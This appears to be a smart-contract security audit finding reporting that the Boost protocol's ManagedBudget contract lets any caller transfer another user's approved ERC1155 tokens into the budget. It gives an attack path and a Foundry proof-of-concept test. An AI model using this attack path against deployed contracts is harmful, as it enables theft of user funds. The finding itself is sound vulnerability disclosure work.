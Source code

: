 Mean Jade Cyborg

Medium

# Attacker can transfer a user's ERC1155 funds into `ManagedBudget` due to unlimited approval for a token ID

### Summary

A user must approve the budget contract before they can allocate funds into the contract. For ERC1155, there is only a setApprovalForAll option. This means that if a user approves a specific token Id they must approve the contract for an unlimited amount. If a user did not want to allocate all of their tokens to the contract, they would still have to approve them all. Therefore anyone can call [allocate](https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/78930f2ed6570f30e356b5529bd4bcbe5194eb8b/boost-protocol/packages/evm/contracts/budgets/ManagedBudget.sol#L57) with `request.target` as another user who has approved the contract and transfer their funds.

### Root Cause

ERC1155 requires unlimited approvals for a certain token id. A user must approve the `ManagedBudget` contract before allocating them to the contract. Because the contract is approved to transfer an unlimited amount on behalf of another user, anyone can call `allocate` and transfer another user's balance.

### Internal pre-conditions

1. A user approves `ManagedBudget` for an ERC1155 token
2. They allocate some, but not all of their tokens into the budget contract
3. User has a remaining balance for that token id

### External pre-conditions

_No response_

### Attack Path

1. Attacker calls `allocate` with `request.target` as another user with an available balance of `payload.tokenId` and a `payload.amount` <= the balance of the target

### Impact

User's can have their ERC1155 tokens involuntarily transferred into the `ManagedBudget` contract without them knowing. Potentially being lost through a disbursement.

Impact High- direct loss of user funds
Likelihood Low- No real incentive for user to do this

### PoC

Add following test function in `ManagedBudget.t.sol`

```Solidity
function testAllocate_ERC1155() public {
        address attacker = makeAddr("attacker");

        //mint an additional 100 to this address
        mockERC1155.mint(address(this), 42, 100);

        // Approve the budget to transfer tokens
        mockERC1155.setApprovalForAll(address(managedBudget), true);

        // Allocate 100 of token ID 42 to the budget
        bytes memory data = abi.encode(
            ABudget.Transfer({
                assetType: ABudget.AssetType.ERC1155,
                asset: address(mockERC1155),
                target: address(this),
                data: abi.encode(ABudget.ERC1155Payload({tokenId: 42, amount: 100, data: ""}))
            })
        );
        assertTrue(managedBudget.allocate(data));

        // Ensure the budget has 100 of token ID 42
        assertEq(managedBudget.available(address(mockERC1155), 42), 100);

        //We still have 100 tokens left
        assertEq(mockERC1155.balanceOf(address(this), 42), 100);

        //attacker transfers rest from user into managed budget contract
        vm.prank(attacker);
        assertTrue(managedBudget.allocate(data));
        assertEq(mockERC1155.balanceOf(address(this), 42), 0);
        vm.stopPrank();
    }
```

### Mitigation

Transfer tokens directly from caller rather than specifying a target address.